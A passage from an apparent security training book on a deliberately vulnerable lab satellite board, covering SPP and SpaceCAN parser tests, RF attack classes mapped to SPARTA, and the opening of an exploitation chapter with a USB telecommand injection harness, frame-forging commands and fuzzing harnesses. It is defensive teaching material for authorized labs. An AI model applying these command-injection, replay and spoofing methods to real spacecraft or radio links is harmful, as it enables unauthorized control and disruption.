| DLC | `2` | Detects malformed length for expected command schemas. |
| Data | `01 12` | Application payload. |
| Interpretation | "request to node 4" | Human-readable hypothesis to test. |

## SpaceCAN Security Tests

After decoding the traffic, run malformed and unauthorized cases in the simulator before touching any physical bus:

| Test Case | Purpose |
| --- | --- |
| Forged request to a responder ID | Checks whether command authority is based only on CAN ID. |
| Forged reply from a responder ID | Tests telemetry trust and operator display assumptions. |
| Duplicate heartbeat | Tests state-monitoring ambiguity. |
| High-rate SYNC | Tests timing-driven load and telemetry cadence changes. |
| Fragment sequence gap | Confirms incomplete packets are not delivered upward. |
| Duplicate fragment with different bytes | Tests whether first or last fragment wins. |
| Fragment total-count mismatch | Tests reassembly reset and mixed-packet behavior. |
| Replay file with original timing | Tests whether state transitions are freshness-protected. |

The central question is the same as in SPP analysis: which fields are trusted before they are authenticated, length-checked, and mapped to an explicit state machine?

## Parser Security Tests

Once the valid packet format is understood, test parser behavior with malformed packets in the lab.

| Test Case | Purpose |
| --- | --- |
| Shorter than 6 bytes | Confirms the parser rejects missing headers. |
| Length field larger than captured frame | Tests truncation handling. |
| Length field smaller than captured frame | Tests trailing-byte behavior. |
| Unknown APID | Tests dispatcher default case. |
| TC packet sent to TM-only APID | Tests type enforcement. |
| TM packet sent to TC-only APID | Tests direction enforcement. |
| Idle APID with secondary header flag set | Tests standards compliance. |
| Maximum length field | Tests allocation and copy boundaries. |

Each test should produce one of three outcomes:

- Clean reject.
- Clean accept with documented behavior.
- Crash, reset, memory corruption, or undefined behavior.

The third outcome is a vulnerability candidate.

## Exploitation-Relevant Questions

During protocol analysis, keep a running list of exploitability questions:

- Does the parser validate `length_field + 1` before copying?
- Does it compare declared length to actual received length?
- Are APIDs used as indexes into fixed-size arrays?
- Are command handlers reachable without authentication?
- Are sequence counts enforced or ignored?
- Are duplicate telecommands accepted?
- Does malformed telemetry leak memory?
- Does a reset command require any safety condition?

The answers drive the next phase: controlled command injection and fuzzing.

The malformed packets from this chapter should not be discarded after manual testing. Save them as seed inputs for the fuzzing corpus used in Phase 4. Good corpus entries include a valid PING telecommand, a valid broadcast command, a truncated six-byte header, a packet with a declared length larger than its captured bytes, and a packet with unusual sequence flags. Those files let libFuzzer start near meaningful protocol states instead of wasting time on completely random data.

## Defensive Requirements

The protocol layer should enforce security before dispatch:

- Reject packets shorter than the declared length.
- Decide and document how to handle trailing bytes.
- Enforce APID direction, such as TC-only or TM-only.
- Enforce command authentication before state-changing handlers.
- Add replay protection using sequence counters or authenticated nonces.
- Bounds-check every payload before parsing fields.
- Make parser failures explicit telemetry events rather than silent resets.

Good spacecraft security starts with boring parser correctness. If the packet parser is predictable, bounded, and strict, the rest of the mission software has a much better chance.


# Phase 3: RF Communications and Attack Surface

Radio frequency communication is the boundary where a spacecraft becomes reachable without physical access. For satellite security, RF is not just a transport layer. It is part of the command authority model, the telemetry confidentiality model, and the mission availability model.

This phase gives the RF background needed before writing the exploitation chapters. It explains how radio links work, how modulation carries information, why LoRa behaves differently from classic narrowband links, and how common RF attacks such as interception, spoofing, and jamming map to spacecraft security.

All RF exercises in this book assume a controlled lab, shielded or low-power test conditions, and equipment/frequencies that the operator is legally authorized to use. Do not transmit against real spacecraft, public services, or third-party infrastructure.

## RF in a Space System

An RF link carries information by using an electromagnetic wave as a carrier. A transmitter changes some property of that carrier, the wave propagates through space, and a receiver detects those changes and reconstructs the original information.

At a high level:

```text
Application data
  -> packet framing
  -> encoding / whitening / error correction
  -> modulation
  -> RF carrier
  -> antenna
  -> propagation channel
  -> antenna
  -> demodulation
  -> decoding
  -> packet parser
  -> application logic
```

Security controls can exist at several layers. A link may use error correction but no encryption. It may use packet framing but no authentication. It may be resistant to noise but still accept forged packets. These distinctions matter because RF reliability and RF security are different goals.

## Core RF Concepts

| Concept | Meaning | Security Relevance |
| --- | --- | --- |
| Frequency | The carrier's oscillation rate, measured in Hz. | Determines where a receiver must tune and what equipment can observe the signal. |
| Bandwidth | The occupied spectrum around the carrier. | Wider signals may carry more data or spread energy, but use more spectrum. |
| Power | Transmit energy, often measured in dBm or watts. | Affects range, detectability, and interference risk. |
| Noise floor | Background energy in the receiver bandwidth. | A signal must be distinguishable from noise to be decoded. |
| SNR | Signal-to-noise ratio. | Low SNR causes packet loss and may be abused for availability attacks. |
| Antenna gain | Directional or physical ability to focus energy. | Directional antennas can improve reception or localize sources. |
| Polarization | Orientation of the electromagnetic field. | Polarization mismatch can reduce received power. |
| Doppler shift | Apparent frequency shift caused by relative motion. | Important for real satellites, especially LEO. |

For Pwnsat, the firmware configures simple lab links:

| Link | Frequency | Modulation Family | Firmware Parameters |
| --- | --- | --- | --- |
| Uplink | 918 MHz | LoRa CSS | BW 250 kHz, SF7, CR5 |
| Downlink | 916 MHz | LoRa CSS | BW 250 kHz, SF7, CR5 |

The lab board does not need orbital Doppler compensation, but the concept is important for real satellite operations.

## How Modulation Works

A carrier wave by itself carries no useful digital message. Modulation is the process of changing the carrier so that it represents information.

The transmitter can vary:

- Amplitude
- Frequency
- Phase
- A combination of amplitude and phase
- The carrier's spreading pattern over time

The receiver reverses the process by estimating which symbols were transmitted.

## Analog Modulation

Analog modulation varies the carrier continuously.

| Modulation | Carrier Property Changed | Typical Use | Security Notes |
| --- | --- | --- | --- |
| AM, Amplitude Modulation | Amplitude | Broadcast audio, aviation voice variants. | Simple to detect and jam; inefficient under noise. |
| FM, Frequency Modulation | Frequency | Voice, broadcast radio, telemetry variants. | More noise-resistant than AM but still easy to observe. |
| PM, Phase Modulation | Phase | Some telemetry and communication systems. | Phase stability matters for receiver design. |

Analog links can still be security-relevant. Voice channels, unencrypted analog telemetry, and analog control links may leak operational details even when no digital packet parser exists.

## Digital Modulation

Digital modulation maps bits to symbols. A symbol may represent one bit or several bits depending on the modulation.

| Modulation | Idea | Strengths | Weaknesses |
| --- | --- | --- | --- |
| ASK/OOK | Encodes bits by changing amplitude. | Simple, cheap, easy to implement. | Sensitive to fading and amplitude noise. |
| FSK | Encodes bits by shifting frequency. | Robust and common in low-power telemetry. | Occupies frequency deviation around the carrier. |
| GFSK | FSK with Gaussian filtering. | Reduces spectral splatter. | Requires matched receiver settings. |
| PSK | Encodes symbols by shifting phase. | Power efficient and common in space links. | Needs phase recovery. |
| BPSK/QPSK | One or two bits per phase symbol. | Strong performance for telemetry and command links. | Receiver synchronization matters. |
| QAM | Combines amplitude and phase. | High data rate in good SNR. | More sensitive to noise and distortion. |
| OFDM | Splits data across many subcarriers. | Efficient for multipath channels. | Higher complexity and peak-to-average power issues. |
| CSS | Chirp Spread Spectrum. | Robust at low SNR, tolerant of frequency offsets. | Lower data rate; security still depends on higher-layer controls. |

The modulation only answers "how bits cross the air." It does not automatically provide confidentiality, authentication, replay protection, or command authorization.

## LoRa

LoRa is a physical-layer modulation based on **Chirp Spread Spectrum**, or CSS. Instead of representing data as a simple tone shift or phase shift, LoRa uses chirps: signals whose frequency sweeps over time. Symbols are encoded by shifting the chirp pattern.

LoRa is attractive for embedded and remote systems because it can decode packets at low SNR and operate over long distances at modest data rates.

## LoRa Parameters

| Parameter | Meaning | Effect |
| --- | --- | --- |
| Frequency | Center frequency of the carrier. | Both sides must tune to the same channel. |
| Bandwidth, BW | Width of the chirp sweep. | Wider BW gives higher data rate but less sensitivity. |
| Spreading Factor, SF | Number of chips per symbol, expressed as `SF7` to `SF12` commonly. | Higher SF improves sensitivity but lowers data rate and increases airtime. |
| Coding Rate, CR | Forward error correction overhead. | Higher redundancy improves resilience but increases airtime. |
| Preamble | Known symbols before payload. | Helps receiver detect and synchronize to a packet. |
| Explicit Header | Packet includes length/coding metadata. | More flexible, slightly more overhead. |
| CRC | Link-layer payload integrity check. | Detects accidental errors but is not authentication. |

Pwnsat's uplink code configures:

```text
Frequency:        918 MHz
Bandwidth:        250 kHz
Spreading Factor: SF7
Coding Rate:      5
CRC:              disabled in the current uplink configuration
Header:           explicit
```

The downlink uses:

```text
Frequency:        916 MHz
Bandwidth:        250 kHz
Spreading Factor: SF7
Coding Rate:      5
```

## LoRa Security Reality

LoRa should not be confused with LoRaWAN. LoRa is the modulation. LoRaWAN is a higher-level network protocol that can include device identity, session keys, message integrity, and replay protection.

Pwnsat uses LoRa-style radio links directly. The firmware packets are mission-defined SPP frames, not LoRaWAN frames. Therefore, the board does not inherit LoRaWAN's security model.

Security properties must be provided by the mission protocol:

| Required Property | Where It Must Be Implemented |
| --- | --- |
| Confidentiality | Encrypt command and telemetry payloads. |
| Authentication | Verify sender identity before command dispatch. |
| Integrity | Detect packet modification. |
| Replay protection | Reject reused commands. |
| Authorization | Restrict high-impact APIDs to safe modes or roles. |

In the current Pwnsat firmware, these controls are absent or intentionally weak for training.

## RF Attack Classes

RF attacks can target confidentiality, integrity, authenticity, or availability. Not every RF attack requires a firmware bug.

## Interception

Interception is passive reception of a signal. The attacker does not transmit; they listen.

General workflow:

1. Detect energy near a likely frequency.
2. Identify modulation and bandwidth.
3. Demodulate or record baseband/IQ samples.
4. Recover frames.
5. Parse protocol fields.
6. Reconstruct telemetry, commands, or timing.

Security impact:

- Cleartext telemetry becomes readable.
- Uplink command structure can be learned.
- Packet timing reveals operational rhythms.
- Replays and spoofing become easier after protocol recovery.

SPARTA mapping:

| Activity | Mapping |
| --- | --- |
| Capturing uplink traffic for learning | `REC-0005.01 Uplink Intercept Eavesdropping` |
| Capturing downlink traffic for learning | `REC-0005.02 Downlink Intercept` |
| Reconstructing mission data from captured downlink | `EXF-0003.02 Downlink Exfiltration` |
| Reconstructing command traffic from captured uplink | `EXF-0003.01 Uplink Exfiltration` |

Defensive controls:

- Authenticated encryption.
- Traffic-flow protection where feasible.
- Command counters and anti-replay.
- Monitoring for unauthorized receivers is hard, so assume RF can be heard.

## Spoofing

Spoofing means sending forged data that the receiver treats as legitimate. In RF systems, spoofing can happen at several levels:

| Layer | Spoofing Example |
| --- | --- |
| Signal level | Transmitting a waveform that resembles the expected carrier. |
| Frame level | Sending syntactically valid packets. |
| Protocol level | Reusing valid APIDs, counters, or command formats. |
| Data level | Forging sensor, navigation, timing, or telemetry values. |

For Pwnsat, spoofing becomes command injection when a rogue lab transmitter sends a valid SPP telecommand over the uplink. Because the firmware does not authenticate command origin, the board cannot distinguish an authorized command tool from a compatible transmitter.

SPARTA mapping:

| Activity | Mapping |
| --- | --- |
| Rogue transmitter sends telecommands | `IA-0008.01 Rogue Ground Station` |
| Packet reaches command dispatcher | `EX-0001.01 Command Packets` |
| Forged internal/sensor data is accepted | `EX-0014.02 Bus Traffic Spoofing` or `EX-0014.03 Sensor Data` |

Defensive controls:

- Cryptographic command authentication.
- Bidirectional session establishment.
- Anti-replay counters or nonces.
- Strict APID/type authorization.
- Telemetry indicating accepted and rejected commands.

## Jamming

Jamming is an availability attack against a receiver. Instead of trying to parse valid packets, the adversary raises interference or creates signal conditions that prevent the receiver from decoding legitimate traffic.

Conceptual jamming types:

| Type | Concept | Typical Effect |
| --- | --- | --- |
| Broadband noise | Energy spread across a wide frequency range. | Raises the noise floor for many channels. |
| Narrowband tone | Energy concentrated near a carrier or subchannel. | Disrupts receivers sensitive to that frequency. |
| Partial-band interference | Targets only part of the occupied spectrum. | Can degrade specific channels while conserving power. |
| Protocol-aware interference | Times interference around preambles, headers, or expected packet windows. | Can be more efficient than continuous noise. |
| Reactive interference | Transmits only after detecting a target signal. | Harder to notice as a constant emitter. |

This book does not provide operational jamming procedures. The educational point is how availability fails and how defenders detect and design around it.

SPARTA mapping:

| Activity | Mapping |
| --- | --- |
| Preventing telemetry from reaching ground | `DE-0002.02 Jam Link Signal` |
| Preventing command reception | Availability attack against the command link; document as link inhibition and mission impact. |
| Causing operators to lose situational awareness | `IMP-0002 Disruption`, when ground processing or visibility is affected. |

Defensive controls:

- Link-budget margin.
- Directional antennas.
- Frequency agility.
- Spread-spectrum or jam-resistant waveforms.
- Alternate communication paths.
- Telemetry alarms for RSSI/SNR anomalies.
- Operational procedures for degraded communication modes.

## Replay

Replay is the reuse of a previously captured valid message. Replay is not always "spoofing" in the narrow sense because the packet may be authentic, just old.

Replay becomes dangerous when a receiver lacks:

- Sequence enforcement.
- Timestamp validation.
- Nonces.
- Command expiration.
- Session binding.

For Pwnsat, sequence fields exist in the SPP header, but the command path does not enforce anti-replay behavior before dispatch. This means replay should be treated as a likely exploitation technique during later phases.

SPARTA mapping:

| Activity | Mapping |
| --- | --- |
| Capturing a command | `REC-0005.01 Uplink Intercept Eavesdropping` |
| Reusing it through a rogue transmitter | `IA-0008.01 Rogue Ground Station` |
| Causing command execution | `EX-0001.01 Command Packets` |

## Pwnsat RF Attack Surface

The firmware-defined RF surface is compact and very useful for training.

| Surface | Firmware Evidence | Security Question |
| --- | --- | --- |
| Uplink | 918 MHz LoRa, ASCII-hex payload converted to raw SPP bytes. | Can a compatible transmitter inject valid telecommands? |
| Downlink | 916 MHz LoRa, plaintext SPP telemetry. | Can a receiver reconstruct mission state? |
| CRC disabled on uplink | `radio0.setCRC(0)` | How does the system detect accidental corruption or deliberate malformed frames? |
| Explicit header mode | `radio0.explicitHeader()` | Can an observer infer packet length and LoRa framing behavior? |
| Broadcast APID | Packet-controlled frequency in `downlinkRadioTransmitBroadcast()`. | Can a telecommand retune the downlink transmitter in the lab? |
| Beacon-rate APID | Packet-controlled interval. | Can RF commands create excessive traffic? |

## Safe Lab Methodology

Use a staged workflow:

1. **Receive only:** capture downlink and confirm frequency/modulation.
2. **Decode only:** recover packet boundaries and SPP headers.
3. **Replay in a shielded/local lab:** only after confirming authorization and legal RF conditions.
4. **Inject over USB first:** reproduce packet behavior without RF uncertainty.
5. **Transmit over RF last:** port only known-safe lab payloads to the uplink.

This order separates protocol bugs from RF problems. If a packet fails over USB, RF will not make it better. If it works over USB but fails over RF, the issue is likely framing, encoding, radio parameters, airtime, or reception.

## RF Findings to Carry Into Exploitation

| Finding | Exploitation Relevance |
| --- | --- |
| Downlink is cleartext | Enables passive telemetry reconstruction before active attacks. |
| Uplink lacks authentication | Enables rogue lab command injection. |
| LoRa parameters are static | Reduces discovery effort. |
| Uplink accepts ASCII-hex encoded SPP bytes | Adds a transport transformation that exploit builders must handle. |
| CRC is disabled on uplink | Makes malformed packet delivery easier to test in the lab. |
| Broadcast command retunes downlink | Creates an RF behavior change controlled by the command layer. |

The next phase can now move from RF theory into exploitation: command crafting, replay, APID abuse, memory-corruption triggers, and RF delivery of payloads already validated through USB.


# Part IV: Exploitation and Reversing


# Phase 4: Exploitation

This phase turns the earlier reconnaissance, protocol analysis, RF background, and firmware review into controlled exploitation exercises. The goal is to prove impact in the lab without confusing three different problems:

- **Packet correctness:** whether the SPP header and payload are valid.
- **Transport correctness:** whether USB or RF delivers the same bytes the firmware expects.
- **Vulnerability behavior:** whether a valid or malformed command changes state, crashes the board, leaks data, or corrupts memory.

Keep those layers separate. A payload should be validated over USB before being delivered over RF. If a packet does not behave over USB, RF will only add noise to the debugging process.

## Scope and Safety

All exploitation examples assume:

- A local Pwnsat/FlatSat board.
- Permission to test the device.
- A controlled lab RF environment when RF is used.
- No transmission against real spacecraft, public services, or third-party infrastructure.

The RF scripts and external tooling are intentionally kept separate from this chapter. This phase focuses on payload design, vulnerability mechanics, expected observations, and documentation quality.

## Exploitation Workflow

Use this order for every attack:

1. **Identify the APID and handler.**
2. **Build the smallest valid SPP packet.**
3. **Deliver over USB or a local command endpoint first.**
4. **Observe logs, LED behavior, USB output, and downlink telemetry.**
5. **Mutate one field at a time.**
6. **Record expected versus observed behavior.**
7. **Only then port the payload to RF delivery.**

This keeps the work reproducible. It also makes later chapters easier to read because every exploit has the same structure.

## Command Ingress Paths

The firmware exposes two practical telecommand paths:

```text
USB/local command path
  -> commandHandler()
  -> spp_unpack_packet()
  -> commandApidHandler()

RF uplink path
  -> ASCII-hex decode
  -> commandHandler()
  -> spp_unpack_packet()
  -> commandApidHandler()
```

The same APID dispatcher is used after parsing. That means most command-layer vulnerabilities can be validated locally before RF delivery.

## USB Telecommand Harness

The following minimal harness shows the intended shape of the local command workflow used throughout the exploitation phase:

```python
from pwn import *
from spacepackets.ccsds.spacepacket import SpHeader
import serial
import time

PORT = "/dev/cu.usbmodemfsat3"
BAUD = 921600

tc_header = SpHeader.tc(apid=6, seq_count=5, data_len=0)
telecommand = tc_header.pack()

success(f"Final RF Payload (ASCII Hex): {telecommand.hex()}")
info(f"Sending {len(telecommand)} characters over {PORT}...")

try:
    with serial.Serial(PORT, BAUD, timeout=1) as ser:
        time.sleep(2)
        ser.write(telecommand + b"\n")
        ser.flush()
        time.sleep(0.5)
        success("Payload delivered successfully!")
except Exception as e:
    print(f"Error opening serial port: {e}")
```

Treat this as a transport harness, not as the exploit itself. The exploit is the APID, header fields, payload length, and payload bytes.

## USB Attack Helper

The step-by-step exercises in this chapter use [scripts/usb_tc_send.py](scripts/usb_tc_send.py). The helper does four things:

1. Builds a TC SPP packet with the local [scripts/spp_tools.py](scripts/spp_tools.py) helper.
2. Prints the decoded SPP fields so the reader can verify APID, sequence, length, and payload.
3. Wraps the raw SPP packet as the framed USB command endpoint expects.
4. Sends the bytes to the `USBRadioLink` CDC port and optionally reads returned bytes.

Use `--dry-run` first:

```shell
python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command ping --dry-run
```

Then send for real:

```shell
python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command ping
```

Replace `/dev/cu.usbmodemfsat3` with the USBRadioLink device name on the reader's machine. The debug `Serial` port and the `USBRadioLink` command port can appear as separate CDC devices. If the command appears well-formed but the board does not react, verify that the helper is writing to the command port, not only to the debug console.

Every exploit should be documented with this minimum record:

| Item | What to Save |
| --- | --- |
| Raw SPP | Hex string printed under `[raw SPP]`. |
| USB framed packet | Hex string printed under `[USB framed]`. |
| Target APID | Numeric APID and handler name. |
| Payload | Byte-level payload meaning. |
| Observation | Logs, LEDs, USB response, telemetry change, reset, or crash. |
| Repeatability | Number of successful reproductions and any timing requirements. |

## Booklet Exercise: Prepare USB and RF Payload Forms

Open [Booklet.ipynb](Booklet.ipynb) and run **Part 3: USB Telecommand Payload Preparation**. The notebook builds the same packet in three forms:

```text
raw SPP bytes
USB framed bytes
RF ASCII-hex string
```

This exercise exists to prevent a common mistake: debugging the wrong layer. If the raw SPP packet is wrong, USB framing will not fix it. If the raw SPP packet is correct but the firmware expects a framed USB endpoint, direct writes may appear to fail even though the packet is valid.

The notebook is complementary to the hardware chapter. It is the right place for offline packet decoding, payload preparation, fuzzing, logic-analyzer analysis, and SpaceCAN bus reasoning. The actual exploit reproductions in this phase use the board over USB first.

## USB Framing Note

The current firmware has two USB-related paths:

- `Serial`, used for debug logging.
- `USBRadioLink`, used by `obcUSBRecv()` as a framed command channel.

The framed USB command channel expects:

```text
0xAA 0x55 | length_hi length_lo | raw SPP packet
```

If a local script writes raw SPP bytes directly, verify which USB CDC endpoint is being opened and whether a bridge layer is already adding the `0xAA 0x55` frame. This matters because a payload can be correct while the transport wrapper is wrong.

There is one implementation-specific detail that affects one-byte payloads in the current firmware. CCSDS stores the data-field size as `length + 1`, so a one-byte payload has length field `0`. The current `spp_unpack_packet()` copies payload bytes only when `header.length > 0`. For handlers that read `data[0]`, such as `SET_BEACON_RATE`, the lab payload should include one padding byte so the declared length field becomes `1` and the unpacker copies both bytes. This is a firmware implementation quirk, not a CCSDS rule.

For the book, write each exploit in this format:

```text
SPP Payload:
  raw packet bytes

USB Delivery:
  raw packet or framed packet, depending on endpoint

RF Delivery:
  ASCII-hex encoded raw packet
```

## SPP Packet Fields for Exploitation

The exploit author controls the SPP primary header and the data field.

| Field | Exploitation Use |
| --- | --- |
| Packet Type | Should be TC for telecommands, but the dispatcher does not consistently enforce direction. |
| APID | Selects the command handler. |
| Sequence Count | Useful for replay testing; not enforced as anti-replay. |
| Data Length | Critical for parser and handler bugs. CCSDS stores `data_field_size - 1`. |
| Data Field | Handler-specific payload. |

The most important rule:

```text
declared_data_size = data_len_field + 1
```

A malformed length can affect the parser before the APID handler even runs.

## SpaceCAN Exploitation Surface

SPP exploitation targets the external command parser and APID dispatcher. SpaceCAN exploitation targets the internal bus model implemented by [spacecan_lib](spacecan_lib/README.md). This matters because many spacecraft security failures are not one big "remote shell" event. They are chains:

```text
unauthorized uplink
  -> command handler accepts state change
  -> controller emits internal bus command
  -> responder trusts bus traffic
  -> telemetry or actuator state changes
```

The local SpaceCAN library gives the reader a safe place to practice those internal-bus attacks. It provides a Unix-socket-backed virtual bus, frame builders, node emulation, sniffing, PCAP/replay output, replay, and manual frame injection.

> **Implementation note:** `spacecan_lib` version `1.0.0` is not a full implementation of the LibreCube SpaceCAN specification. The exercises in this phase therefore claim impact against the local research implementation and against common SpaceCAN-style design assumptions, not against the complete LibreCube standard.

The important attacker-controlled fields are:

| Field | Control Point | Exploitation Use |
| --- | --- | --- |
| CAN ID | `spacecan_frame_t.can_id` | Selects function family and node identity. |
| DLC | `spacecan_frame_t.dlc` | Controls how many data bytes receivers parse. |
| Data bytes | `spacecan_frame_t.buffer[0..7]` | Carries command, telemetry, state, or fragment bytes. |
| Timestamp | Replay/sniffer record | Preserves or distorts operational timing. |
| Fragment header | `buffer[0]`, `buffer[1]` | Controls packet total count and sequence number. |

Unlike SPP, a SpaceCAN direct frame has no primary header with version, APID, packet type, and length fields. Most of the semantic meaning is packed into the CAN ID and application payload. That makes protocol recovery easier to start, but it also means a weak implementation may trust a very small number of bytes too much.

## SpaceCAN Lab Workflow

Use this order for SpaceCAN experiments:

1. Start the virtual bus/controller.
2. Start one or more simulated nodes.
3. Capture baseline traffic with `scsniffer` or `scviewer`.
4. Decode CAN IDs into function family and node ID.
5. Inject one frame at a time.
6. Observe node logs, telemetry, monitor views, and replay files.
7. Repeat with malformed DLC, forged node IDs, replay timing, and fragment mutations.

The expected local build flow is:

```shell
cd spacecan_lib
meson setup buildDir
meson compile -C buildDir
```

Then run the components in separate terminals:

```shell
./buildDir/examples/controller
./buildDir/examples/scsniffer -r baseline.replay
./buildDir/examples/scviewer
./buildDir/examples/scmonitor
```

Exact binary paths may differ depending on Meson configuration. Keep the exercise focused on the frame fields, not on the build system.


## SpaceCAN Controller
The `controller` process acts as the central bus daemon for the SpaceCAN simulation. It is the hub that lets the simulated nodes exchange frames:

- Battery
- Thruster
- Sensor

Start it before the monitor, sniffer, replay, or injection tools:

```shell
./buildDir/examples/controller
```



> **Note:** The controller must be running before the other SpaceCAN example binaries can exchange traffic.

## SpaceCAN SCMonitor

The `scmonitor` tool is the main TUI for observing the simulated bus. Treat it as an instrument-cluster view: it helps confirm whether injected or replayed traffic changes the visible state.



Use this view while running the injection and replay cases later in the chapter.

## SpaceCAN Frame Crafting

The local injection tool sends a user-controlled frame onto the virtual bus:

```shell
./buildDir/examples/scinjection 0x284 01 FF
```



In the current implementation, the tool derives `dlc` from the number of byte arguments and copies those bytes into the frame buffer. Treat the command as:

```text
scinjection <CANID> [byte0 byte1 ...]
```

The example above sends:

```text
CAN ID: 0x284
DLC:    2
DATA:   01 FF
```

Because `0x284` is in the request family, the frame is interpreted as a request to node `0x04`:

```text
0x284 - 0x280 = 0x04
```

The same byte payload sent as `0x304` would be interpreted as a reply from node `0x04`, not as a request to node `0x04`. That one-nibble difference is the difference between command-like traffic and telemetry-like traffic.



## Fuzzing the Telecommand Surface

Fuzzing is automated input generation. Instead of writing one malformed packet by hand, a fuzzer creates thousands or millions of variations and feeds them into a target function while watching for crashes, sanitizer findings, hangs, unexpected return codes, or new execution paths.

For Pwnsat, fuzzing belongs between protocol analysis and hardware exploitation. The firmware accepts externally supplied SPP bytes from USB and RF paths, and the parser decides whether those bytes become command handler input. That makes the SPP parser and APID-facing payload logic high-value fuzzing targets.

Fuzzing should be performed for four reasons:

1. **Length fields are attacker-controlled.** SPP stores the data-field size as `length + 1`, and the implementation copies based on that declared value.
2. **APID dispatch is security-critical.** One accepted packet can reach reset, beacon-rate, flash-transfer, thruster, or broadcast handlers.
3. **Manual tests miss edge cases.** Humans usually test clean packets, short packets, and one or two obviously malformed lengths. Fuzzers explore combinations of header bits, lengths, and payload bytes at scale.
4. **Crashes need reproducible evidence.** A fuzzer produces a concrete input file that can be decoded, minimized, replayed, and mapped back to source code.

Fuzzing is not itself a SPARTA technique. It is a testing method. The discovered behavior is what maps to SPARTA. For example, a malformed command packet that stresses validation maps to `EX-0013.02 Erroneous Input`; an unauthorized command that successfully executes maps to `EX-0001.01 Command Packets`; repeated crashes or lockups map to `DE-0002.03 Inhibit Spacecraft Functionality` or `IMP-0003 Denial`, depending on severity.

## What Is a Corpus?

A **corpus** is the set of input files the fuzzer starts from and improves over time. A good corpus gives the fuzzer examples that are already close to meaningful protocol states.

For Pwnsat SPP fuzzing, useful seed files include:

- A minimal TC packet for each known command APID.
- A telemetry packet with a secondary-header flag set.
- A valid broadcast command containing a two-byte frequency and message.
- A truncated packet containing only the six-byte primary header.
- A packet with a declared data length larger than the captured bytes.
- A packet using the idle APID `0x7FF`.

The corpus should start small. Large random blobs are less useful than a few packets that cross important parser branches. As libFuzzer discovers inputs that increase coverage, it adds them back into the corpus automatically.

## Fuzzing Targets

The exercise resources contain three fuzzing targets:

| Target | Purpose | Primary Bug Class |
| --- | --- | --- |
| `fuzz_spp_unpack.c` | Feeds arbitrary bytes into `spp_unpack_packet()`. | Truncated packets, declared-length abuse, malformed headers. |
| `fuzz_spp_pack.c` | Treats fuzzer bytes as payload to `spp_tm_build_packet()`. | Oversized payload copies and builder-side bounds failures. |
| `vulnerable_app.c` | Wraps the SPP builder in a local executable for crash-to-control-flow practice. | Stack corruption and exploit triage in a controlled binary. |

The first two targets are library fuzzers. They are the safest place to find memory-safety bugs because AddressSanitizer and UndefinedBehaviorSanitizer stop the process exactly where the invalid read, invalid write, or undefined behavior occurs.

The third target is an exploitation exercise. It is useful after a crash exists because it teaches how to move from "the program crashed" to "the crash is controllable." Treat it as local exploit-development practice, not as proof that the same control-flow result has been achieved on the RP2040.

## Fuzzing Harness Design

A harness should be small and boring. Its job is to expose one parser or builder function to generated input.

For `spp_unpack_packet()`, the harness is:

```c
int LLVMFuzzerTestOneInput(const uint8_t *Data, size_t Size) {
    if (Size < 6) {
        return 0;
    }

    space_packet_t unpacket;
    spp_unpack_packet(&unpacket, Data, Size);
    return 0;
}
```

This target asks one question: can arbitrary received bytes make the unpacker read or write outside valid memory, mis-handle a malformed header, or enter undefined behavior?

For `spp_tm_build_packet()`, the harness is:

```c
int LLVMFuzzerTestOneInput(const uint8_t *Data, size_t Size) {
    if (Size < 6) {
        return 0;
    }

    space_packet_t packet;
    spp_tm_build_packet(
        &packet,
        SPP_GROUP_FLAG_UNSEGMENTED,
        SPP_SECHEAD_FLAG_NOPRESENT,
        0,
        100,
        Data,
        Size
    );

    return 0;
}
```

This target asks whether packet construction enforces the maximum payload size before copying attacker-sized data into `space_packet_t.data`.

## Fuzzing Oracles

An oracle is the signal that tells the tester an input is interesting. In this phase, useful oracles are:

| Oracle | Meaning |
| --- | --- |
| AddressSanitizer stack-buffer-overflow | The input caused an out-of-bounds stack write or read. |
| AddressSanitizer heap-buffer-overflow | The input crossed heap allocation boundaries. |
| UndefinedBehaviorSanitizer finding | The input triggered undefined C/C++ behavior. |
| Timeout or hang | The parser may be stuck or doing unexpectedly expensive work. |
| New corpus file | The input reached a new execution path. |
| Reproducible board reset | A hardware-facing input affects availability. |

Do not treat every crash as an exploit. First classify it:

1. Which function crashed?
2. Was the bad access a read or write?
3. Was the input saved as a crash artifact?
4. Can the crash be reproduced with the same file?
5. Does the input decode as an SPP packet or only as arbitrary bytes?
6. Is the behavior reachable through USB, RF, or only the local harness?

Only after this triage should the finding move into exploit development.

## Booklet Exercise: Fuzz SPP Offline

Open [Booklet.ipynb](Booklet.ipynb) and run **Part 5: Fuzzing**. The notebook walks through:

- Creating the corpus and output directories.
- Building a seed corpus.
- Creating a protocol dictionary for libFuzzer.
- Compiling `fuzz_spp_pack` and `fuzz_spp_unpack` with sanitizers.
- Running bounded fuzzing jobs with `-runs=...`.
- Reading an AddressSanitizer crash.
- Building a local crash input and calculating the overwrite offset.
- Mapping the result back to firmware evidence and SPARTA.

Run these exercises offline first. A fuzzer should not be pointed directly at the RF path as a first step because uncontrolled radio fuzzing can create regulatory, safety, and debugging problems. The correct workflow is:

```text
offline library fuzzing
  -> crash artifact
  -> packet decoding and minimization
  -> USB/local reproduction
  -> hardware observation
  -> controlled RF port, only when authorized
```

## Demonstration: From Fuzzing Crash to Local Control Flow

This section shows a complete local demonstration path: generate a corpus, build fuzzing targets, trigger sanitizer findings, calculate an overwrite offset in a deliberately vulnerable local program, and build a proof-of-control input.

> **Demonstration note:** The values shown here are example values from one local run. The reader must adjust commands, compiler paths, debugger commands, architecture, endianness, offsets, function addresses, and generated artifacts for their own system. The exact offset and target address are not universal. For a more precise, cell-by-cell workflow, use [Booklet.ipynb](Booklet.ipynb), especially **Part 5: Fuzzing**, because the notebook keeps intermediate values visible and easier to adapt.

This is not a claim of code execution on the RP2040 firmware. It is a controlled host-side exploit-development exercise that teaches the workflow used after a parser or builder bug is discovered:

```text
protocol-aware corpus
  -> sanitizer-guided fuzzing
  -> crash artifact
  -> source-line triage
  -> local vulnerable harness
  -> offset discovery
  -> proof-of-control payload
```

### Step 1: Generate the Corpus

Start by creating protocol-aware seed files. A good seed corpus gives libFuzzer valid and near-valid SPP structures so it can mutate meaningful fields instead of spending most of its time on random bytes.

```shell
cd resources/fuzzing
mkdir -p fuzzing/corpus fuzzing/output
gcc -I./include fuzzing/generate_corpus.c src/spp/spp.c -o fuzzing/output/generate_corpus
./fuzzing/output/generate_corpus
```


